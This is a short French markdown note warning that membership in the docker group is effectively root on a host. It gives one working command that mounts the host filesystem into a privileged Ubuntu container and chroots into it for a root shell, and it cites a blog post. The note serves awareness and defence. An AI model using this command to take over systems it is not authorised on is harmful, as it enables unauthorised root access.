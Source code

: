```yaml
---
id: s2djd64snzp00vdzn9j2zsc
title: Docker privilege escalation
desc: ''
updated: 1708968202099
created: 1708968202099
tags: 
    - docker
---
```


# Les dangers du groupe docker

Si un utilisateur a le groupe docker alors il a toutes les droits sur la machine.
il peut utiliser un container du genre alpine ou ubuntu pour remonter le systeme en mode root 

```bash
docker run --rm -it -u root --privileged -v /:/mnt -v /var:/mnt/var -v /home/:/mnt/home ubuntu:22.04 chroot /mnt /bin/bash
```

---
Sources:
- https://blog.creekorful.org/2020/08/docker-privilege-escalation/